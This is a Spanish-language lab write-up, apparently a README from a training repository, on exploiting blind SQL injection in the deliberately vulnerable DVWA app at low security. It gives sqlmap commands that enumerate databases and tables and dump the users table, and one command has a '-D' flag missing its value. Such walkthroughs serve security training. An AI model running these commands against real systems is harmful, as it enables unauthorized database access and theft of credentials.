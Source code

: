 # Vulnerabilidad de SQL Injection (Blind) - Nivel Bajo

Este README describe brevemente la vulnerabilidad de SQL Injection (Blind) y cómo explotarla en el nivel de seguridad Bajo.

## Resumen de la Vulnerabilidad de SQL Injection (Blind)

SQL Injection (SQLi) Blind es una variación de SQL Injection donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando el comportamiento de la aplicación en respuesta a inyecciones SQL, utilizando técnicas basadas en booleanos o en tiempo.

## Explotación de SQL Injection (Blind) Paso a Paso - Nivel de Seguridad Bajo

En el nivel de seguridad bajo, la aplicación es completamente vulnerable a la inyección SQL Blind y no implementa ninguna medida de seguridad.

### Explotación Automatizada con sqlmap

sqlmap es una herramienta que automatiza la detección y explotación de SQLi Blind.

Para tener la información necesaria utilizamos la información del navegador o la optenemos haciendo una captura con burp suite

![imagen de la vulnerabilidad SQL Injection Blind 1](../../assets/SQLInjectionBlindLow01.png)

![imagen de la vulnerabilidad SQL Injection Blind 2](../../assets/SQLInjectionBlindLow02.png)

1.  **Construir el comando sqlmap para enumerar las bases de datos:**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id --dbs
    ```
    * `--url`: Especifica la URL vulnerable.
    * `--cookie`: Proporciona la cookie de sesión.
    * `--data`: Especifica los datos POST (si aplica).
    * `-p id`: Indica el parámetro a probar.
    * `--dbs`: Le dice a sqlmap que enumere las bases de datos.

![imagen de la vulnerabilidad SQL Injection Blind 3](../../assets/SQLInjectionBlindLow03.png)

2.  **Ejecutar el comando sqlmap:** sqlmap probará varias técnicas de inyección Blind.

3.  **Analizar los resultados:** sqlmap mostrará las bases de datos encontradas (ej: `dvwa`, `information_schema`).

4.  **Enumerar las tablas de una base de datos específica (ej: `dvwa`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -D --tables --batch --threads 5
    ```
    * `--tables`: Le dice a sqlmap que enumere las tablas.
    * `--batch`: Responde automáticamente a las preguntas.
    * `--threads 5`: Utiliza múltiples hilos.

![imagen de la vulnerabilidad SQL Injection Blind 4](../../assets/SQLInjectionBlindLow04.png)

5.  **Extraer la información de una tabla específica (ej: `users`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
    ```
    * `-T users`: Especifica la tabla.
    * `--dump`: Le dice a sqlmap que vuelque el contenido.

![imagen de la vulnerabilidad SQL Injection Blind 5](../../assets/SQLInjectionBlindLow05.png)

En resumen, la explotación de SQL Injection (Blind) en el nivel bajo se realiza manualmente mediante la observación del tiempo de respuesta o automáticamente utilizando herramientas como sqlmap para inferir la estructura y el contenido de la base de datos sin recibir errores directos.